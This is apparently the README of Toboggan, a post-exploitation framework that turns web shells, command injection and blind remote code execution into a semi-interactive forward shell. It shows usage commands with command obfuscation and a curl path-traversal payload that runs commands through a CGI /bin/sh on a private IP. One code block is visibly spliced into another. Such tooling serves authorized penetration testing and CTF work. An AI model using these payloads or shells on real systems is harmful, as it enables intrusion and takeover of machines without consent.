

🛝 Slide into post-exploitation from RCE with ease. Toboggan is a post-exploitation framework that transforms web shells, command injection vulnerabilities, and blind RCE into an upgradable semi-interactive shell. It's the perfect reverse shell alternative for firewalled targets, providing a forward shell handler (`mkfifo`) inside a targeted Linux environment.

<p align="center">
    
</p>

## 📦 Installation

Installing Toboggan is simple. You can install it directly from the repository:

```shell
pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
```

### Using [`pipx`](https://pypa.github.io/pipx/)

Be careful, it installs Python applications in isolated virtual environments, which means they do not have access to system-wide packages by default (like `psycopg2`).
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

If you want-it to use system site packages, pass `--system-site-packages` when installing via `pipx`:
```shell
pipx install --system-site-packages 'git+https://github.com/n3rada/toboggan.git'
```

Or you can directly inject the dependency inside `toboggan`:
```shell
pipx inject toboggan psycopg2
```

## 🧸 Usage

Upgrade your web shell or command injection to an interactive shell:
```shell
toboggan ~/phpexploit.py
```

### Advanced: Forward Shell with Obfuscation

For experienced users, launch a fully interactive forward shell with command obfuscation:
```shell
toboggan ~/phpexploit.py --obfuscate --fifo --os "linux"
```

It will start a FiFo named-pipe (a.k.a `mkfifo` shell, forward-shell) on `linux` (`--os`) remote system and obfuscating all commands (`--obfuscation`) using the [hide.py](./src/toboggan/core/actions/hide/linux.py) actions.

### Proxy

You can forward to your favorite proxifier such as [`Squid`](https://www.squid-cache.org/) server using the `--proxy` parameter:

```shell
toboggan ~/phpexploit.py --proxy http://squideu.<something>.io:3128
```

### [BurpSuite](https://portswigger.net/burp)

To route traffic through Burp Suite:
```shell
toboggan ~/ph

### Wrap a shell command

If you are really lazy, you can directly wrap a shell command:
```shell
toboggan --exec-wrapper 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

pexploit.py --proxy
```

You can also directly import a Burp saved request that contains the `||cmd||` placeholder:
```shell
toboggan --request brequest
```

## 🔍 What is an RCE Python Module?

A Remote Code Execution (RCE) module is a Python script that defines how commands are sent to and executed on a remote system. Toboggan uses this module to wrap web shells, command injection exploits, and other RCE vectors, transforming them into a streamlined post-exploitation shell interface.

This works with:
- **Web shells** (PHP, ASP, JSP backdoors).
- **Command injection** vulnerabilities.
- **HTTP-based RCE** (web application exploits).
- **Blind command execution**, where output appears elsewhere (e.g., logfile).
- **SQL injection** with command execution (`xp_cmdshell`, etc.).
- Any custom RCE vector you can script.

To be compatible with Toboggan, your module must define a function with the following exact signature:

```python
def execute(command: str, timeout: float) -> str:
    """
    Execute a command remotely and return the output.
    
    Args:
        command (str): The command to execute.
        timeout (float): Execution timeout.

    Returns:
        str: The command output.
    """
```

This function will be called internally by Toboggan to execute commands remotely. It uses [`modwrap`](https://pypi.org/project/modwrap/) under the hood.

### Considerations

Your `execute()` function must handle all quirks of the target system.

- If space characters need to be replaced (e.g., with `${IFS}`), handle that inside the function.
- If special encoding is required (e.g., `base64`, `hex`), apply it before sending.
- If the system echoes extra characters or wraps the output, sanitize it.
- If the remote interface is slow or unreliable, tune the timeout.

The goal is for Toboggan to call your `execute()` function with any arbitrary command and get the correct output, as if you typed it in a shell.

## 🏗️ Linux Shell Upgrade: From Dumb to Semi-Interactive

### Named Pipes for Semi-Interactive Shells

Toboggan upgrades dumb web shells into semi-interactive shells using named pipes (FIFO - First In, First Out) for inter-process communication. This forward shell technique is invaluable when:

- You can't get a reverse shell due to firewall restrictions
- Target is behind NAT or multiple proxies.
- Working with HTTP-only RCE channels (web shells, command injection).
- Dealing with blind command execution that doesn't return output immediately (e.g., output from log file).
- You need an interactive shell without opening connections back to your machine.

The forward shell uses `mkfifo` under the hood to create a pseudo-TTY experience, even in heavily restricted environments. To enable this shell upgrade, use the `--fifo` flag:
```shell
toboggan ~/phpexploit.py --fifo
```

Toboggan will create a FIFO-based communication channel, allowing you to interact with the remote system in a more dynamic way. This enables interactive commands that require stdin/stdout communication such as **`sudo -l`** (list sudo privileges), **`su - otheruser`** (switch users interactively), **`ssh user@host`** (establish interactive SSH sessions), **`mysql -u root -p`** (connect to database clients requiring password prompts), **`passwd`** (change user passwords), and any custom applications or scripts using `read` that expect real-time user input.

> [!WARNING]
> Ctrl+C not forwarded. Control characters only work in real TTY/PTY environments.

## 🛠️ Bring Your Own Actions (BYOA)

Actions in Toboggan are modular plugins that allow you to extend its functionality. Actions can automate common post-exploitation tasks, such as downloading files, executing scripts, or setting up persistent access. Custom actions should be placed in `~/.local/share/toboggan/actions` (Linux) or `%APPDATA%\toboggan\actions` (Windows).

## ⚠️ Disclaimer

Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments.

It is specifically crafted to be used in controlled environments, such as:
- Penetration testing labs (e.g., HackTheBox, OffSec exam scenarios).
- Personal lab setups designed for ethical hacking and security research.
- Penetration Testing or Red Team engagements with customer consent.

Misuse of this project may result in legal action. Please use this tool responsibly and in compliance with applicable laws and regulations.

## ⚖️ Legal Notice

Any unauthorized use of this tool in real-world environments or against systems without explicit permission from the system owner is strictly prohibited and may violate legal and ethical standards. The creators and contributors of this tool are not responsible for any misuse or damage caused.

Use responsibly and ethically. Always respect the law and obtain proper authorization.
